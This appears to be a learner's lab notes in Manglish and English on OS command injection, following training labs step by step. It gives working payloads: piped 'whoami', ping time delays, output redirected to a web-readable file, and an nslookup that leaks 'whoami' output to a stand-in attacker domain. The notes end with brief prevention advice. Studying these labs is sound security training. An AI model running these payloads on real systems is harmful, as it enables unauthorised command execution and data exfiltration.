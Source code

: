 -->OS command injection (also known as shell injection) is a web security vulnerability that allows an attacker to execute arbitrary operating system (OS) commands on the server that is running an application

             Lab-1(OS command injection, simple case)
-->ivide oru shoping cart aan
-->ethengilum oru product edukuka enit athile stock check chyuna oru option und
-->athil ethengilum onn select chyth check chyuka
-->apol kanam ethra units unden 
-->so aa request namal repeater il iduka
-->repeater il productId=1&storeId=2 ingane aan indavuka
-->ivide storeid enna parameter command adich search chyuna pole thane aan namuk result tharunath so avide | itt vere command adich nokuka
-->ie  -  productId=1&storeId=2|id  allengil whoami enno adich nokiya ariyam command injection work akumo ilayo enn.ivide work aakunund.athayath id allengi whoami enn adikimbol repeater ile response il result kanikunund.
-->athe samayam storid=2||whoami ennadichal prathyekich onum kanikila.normal aayi thane site behave chyum.so test chyumbol oru | mathram itt test chyanam

### Blind OS command injection vulnerabilities
-->Many instances of OS command injection are blind vulnerabilities. This means that the application does not return the output from the command within its HTTP response
-->You can use an injected command that will trigger a time delay, allowing you to confirm that the command was executed based on the time that the application takes to respond
-->The ping command is an effective way to do this, as it lets you specify the number of ICMP packets to send, and therefore the time taken for the command to run:
            -->& ping+-c+10+127.0.0.1 &      (ivide 10 secodnd delay chyum)

              Lab-2(OS command injection with time delays)
-->ivide blind injection aan so nammal inject chyunath kanikila
-->so injection work aakunundo en ariyan time delay technique use chyunu
-->ivide feedbak chyuna sthalath aan chyendath
-->ivide username,email,subject,message optionil enthelum koduthit ok kodukuka
-->ini ee request repeater il iduka
-->satharan username,password okke login chyth kodukule athupole thazhe aayit nammal koduthath kanam
-->ini enth venam enal test chyth nokanam evide engilum os injection aavunundo enn
  csrf=Ajxlw4AUFFZ7R6jqufH9UkjSJE6q0KFd&name=helo&email=shes%40gmail.com&subject=sdfs&message=hhhhhhhhhhhhh
     ingane aan request il undavuka.ivide oro parameter value in shesham venam test 
	 chyan.rememer ith blind aan so onum kanila.time delay chyth nokanam
-->so ivide email in shesham nammal test chyth nokumbol time delay aavunund so avide blind injection und ennartham - &email=shes%40gmail.com||ping+-c+10+127.0.0.1||&subject.ithupole chythit send chythal 10 second kazhinjite response kitu

         Lab-3(Blind OS command injection with output redirection)
-->ivide blind os injection aan ullath athukond thane inject chyunath kanan patila
-->feedback page il aan inject chyunath
-->athil fill chythil ok adikuka enit repeateril aa request viduka
-->ini athile oro parameter inu shesham | itt test chyuka eg:  productId=1|&storeId=2 enit error varunath vere oro parameter value in shesham itu test chyuka.
-->emial in shesham ath idumgol couldnot send feedback en kanikum.so aa parameter vulnerable aanu en manasilakam
-->so aa parameter il :-      &email=jos%40jameil.com||whoami>/var/www/images/josu.txt||&subject enn iduka apol whoami ennath josu.txt ena file il images directory il save aakum
-->ini image varuna request edukuka - /image?filename=1.jpg  -  ivide filename=josu.txt enn kodukuka karanam ivide aan aa file save chythath apol burp ile response il kanam - "peter-0rienQ"
-->| avunilengil & it chythnokam pala reethiyil chyam

### Exploiting blind OS command injection using out-of-band (OAST) techniques
-->You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques. For example: 
           -->& nslookup kgji2ohoyw.web-attacker.com &
--> This payload uses the nslookup command to cause a DNS lookup for the specified domain. The attacker can monitor for the specified lookup occurring, and thereby detect that the command was successfully injected. ee monitor chythth namude burp collaborator client il monitor chyam		   
		   
        Lab-4(Blind OS command injection with out-of-band interaction)
-->ividem nammal feedback page il aan chyunath
-->pakshe nerthepole parameter value in shesham | , & onum ititum error varunila
-->so nammal oast chyunu
-->so email parameter value il command inject chyunu - email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||
-->ivide burp inte collaborator client url kodukanam
-->enit repeater il send kodukanam
-->ini collaborator il poi poll now koduthal namal kodutha nslookup avide kanan patum
-->ingane chyumbol namul ivide whoami oke adichu nokan patum - & nslookup `whoami`.kgji2ohoyw.web-attacker.com &message    - ivide ` ` symbol nirbhandhamayi idanam enale aaku  -   `ithan lab-5 il chyunath`

#### ways of injecting

    &           
    &&
    |
    ||
ee sathanangal okke itt test chyth nokam

#### prevention
so os command injection prevent chyunath engane aanenal kazhivathum enhtengilum call chyumbol os command aayi call chyathirikuka pakaram alternative methoda aaya api oke vech oron call chyth response aayi tharuka